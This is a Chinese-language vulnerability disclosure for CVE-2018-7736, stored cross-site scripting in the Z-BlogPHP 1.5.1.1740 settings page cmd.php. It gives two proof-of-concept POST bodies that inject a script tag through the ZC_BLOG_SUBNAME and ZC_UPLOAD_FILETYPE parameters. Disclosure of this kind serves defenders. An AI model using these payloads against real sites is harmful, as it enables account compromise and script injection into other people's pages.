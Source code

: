 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Z-Blog-1.5.1.1740存在XSS漏洞|2018-04-05|zzw (zzw@5ecurity.cn)|[https://www.zblogcn.com/](https://www.zblogcn.com/) | [https://github.com/zblogcn/zblogphp](https://github.com/zblogcn/zblogphp) |1.5.1.1740| [CVE-2018-7736](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7736)|  

#### 漏洞概述  

> Z-BlogPHP 1.5.1.1740版本的cmd.php页面ZC_BLOG_SUBNAME及ZC_UPLOAD_FILETYPE参数过滤不严格可导致跨站脚本漏洞。  

### POC实现代码如下：  

> ZC_BLOG_SUBNAME参数poc代码:

``` raw
post_url：http://localhost/z-blog/zb_system/cmd.php?act=SettingSav&token=2c7ca9a4c1c3d856e012595ca878564f
 
post_data:
 
ZC_BLOG_HOST=http%3A%2F%2Flocalhost%2Fz-blog%2F&ZC_PERMANENT_DOMAIN_ENABLE=&ZC_PERMANENT_DOMAIN_WITH_ADMIN=&ZC_BLOG_NAME=admin&ZC_BLOG_SUBNAME=Good%20Luck%20To%20You!tluf3%22%3e%3cscript%3ealert(1)%3c%2fscript%3euk095&ZC_BLOG_COPYRIGHT=Copyright+Your+WebSite.Some+Rights+Reserved.&ZC_TIME_ZONE_NAME=Asia%2FShanghai&ZC_BLOG_LANGUAGEPACK=zh-cn&ZC_UPLOAD_FILETYPE=jpg%7Cgif%7Cpng%7Cjpeg%7Cbmp%7Cpsd%7Cwmf%7Cico%7Crpm%7Cdeb%7Ctar%7Cgz%7Csit%7C7z%7Cbz2%7Czip%7Crar%7Cxml%7Cxsl%7Csvg%7Csvgz%7Crtf%7Cdoc%7Cdocx%7Cppt%7Cpptx%7Cxls%7Cxlsx%7Cwps%7Cchm%7Ctxt%7Cpdf%7Cmp3%7Cmp4%7Cavi%7Cmpg%7Crm%7Cra%7Crmvb%7Cmov%7Cwmv%7Cwma%7Cswf%7Cfla%7Ctorrent%7Capk%7Czba%7Cgzba&ZC_UPLOAD_FILESIZE=2&ZC_DEBUG_MODE=&ZC_GZIP_ENABLE=&ZC_SYNTAXHIGHLIGHTER_ENABLE=1&ZC_CLOSE_SITE=&ZC_DISPLAY_COUNT=10&ZC_DISPLAY_SUBCATEGORYS=1&ZC_PAGEBAR_COUNT=10&ZC_SEARCH_COUNT=20&ZC_MANAGE_COUNT=50&ZC_COMMENT_TURNOFF=&ZC_COMMENT_AUDIT=&ZC_COMMENT_REVERSE_ORDER=&ZC_COMMENTS_DISPLAY_COUNT=100&ZC_COMMENT_VERIFY_ENABLE=

```
> ZC_UPLOAD_FILETYPE参数poc代码:  

```raw
post_data:
 
ZC_BLOG_HOST=http://localhost/z-blog/&ZC_PERMANENT_DOMAIN_ENABLE=&ZC_PERMANENT_DOMAIN_WITH_ADMIN=&ZC_BLOG_NAME=admin&ZC_BLOG_SUBNAME=Good+Luck+To+You!&ZC_BLOG_COPYRIGHT=Copyright+Your+WebSite.Some+Rights+Reserved.&ZC_TIME_ZONE_NAME=Asia/Shanghai&ZC_BLOG_LANGUAGEPACK=zh-cn&ZC_UPLOAD_FILETYPE=jpg|gif|png|jpeg|bmp|psd|wmf|ico|rpm|deb|tar|gz|sit|7z|bz2|zip|rar|xml|xsl|svg|svgz|rtf|doc|docx|ppt|pptx|xls|xlsx|wps|chm|txt|pdf|mp3|mp4|avi|mpg|rm|ra|rmvb|mov|wmv|wma|swf|fla|torrent|apk|zba|gzbauckek"><script>alert(1)</script>ekkgh&ZC_UPLOAD_FILESIZE=2&ZC_DEBUG_MODE=&ZC_GZIP_ENABLE=&ZC_SYNTAXHIGHLIGHTER_ENABLE=1&ZC_CLOSE_SITE=&ZC_DISPLAY_COUNT=10&ZC_DISPLAY_SUBCATEGORYS=1&ZC_PAGEBAR_COUNT=10&ZC_SEARCH_COUNT=20&ZC_MANAGE_COUNT=50&ZC_COMMENT_TURNOFF=&ZC_COMMENT_AUDIT=&ZC_COMMENT_REVERSE_ORDER=&ZC_COMMENTS_DISPLAY_COUNT=100&ZC_COMMENT_VERIFY_ENABLE=
```